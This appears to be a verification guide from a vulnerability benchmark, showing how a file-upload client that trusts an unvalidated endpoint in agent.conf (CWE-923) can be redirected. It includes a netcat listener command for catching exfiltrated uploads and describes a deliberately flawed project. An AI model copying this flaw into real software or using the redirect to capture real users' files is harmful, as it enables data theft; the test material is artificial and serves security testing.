 
# Verification Guide

## CWE-923: Improper Restriction of Communication Channel to Intended Endpoints

### Vulnerability Location

- **File:** `src/client.py`
- **Function:** `read_server_address`
- **Approximate Line Number:** 6-16

The client reads the server address for file upload operations from a plain text configuration file (`agent.conf`) without any validation or secure binding to an intended endpoint (i.e., no cryptographic authentication, no fixed endpoint, configurable by the user or attacker with no protections).

### Verification Steps

#### 1. Set up the legitimate server

In a terminal, start the provided server:

```bash
cd projects/FileTransferAgent/src
python3 server.py
```

#### 2. Confirm normal client operation

In another terminal, with the default config (which points to localhost):

```bash
cd projects/FileTransferAgent/src
echo "test file content" > test.txt
python3 client.py upload test.txt
python3 client.py list
```

Files should be uploaded to the local server.

#### 3. Simulate an attacker starting a malicious server

In a third terminal, start a *malicious* server (can simply copy `server.py` to another port):

```bash
cd projects/FileTransferAgent/src
# Modify this server to e.g., log or exfiltrate files before saving, or just copy as-is for demonstration
# Start on a different port
python3 server.py # Let this be on port 5002 after modification, or use the mode below.
```

Or, for a simple demonstration, use `nc` (netcat) to exfiltrate uploads:

```bash
nc -l 0.0.0.0 7000
```

#### 4. Change the client config to point to the attacker's "server"

Edit the `agent.conf` file in `src/` to:

```
http://127.0.0.1:7000
```

#### 5. Upload using the client

```bash
python3 client.py upload test.txt
```

If using `nc`, you will see file data appear in the `nc` terminal, showing the client blindly sent it anywhere configured. If using the second server process, you could inspect its uploads or modify its logic to simulate a real attack.

#### 6. Analysis

This demonstrates that the client process – which may be used in privileged scripts or for sensitive files – will upload to any endpoint specified, with no validation, trust anchor, or endpoint authentication. This is a classic CWE-923: Improper Restriction of Communication Channel to Intended Endpoints.

**In summary:** An attacker who is able to modify the `agent.conf` file or influence the environment can redirect sensitive file uploads to an arbitrary, attacker-controlled endpoint.

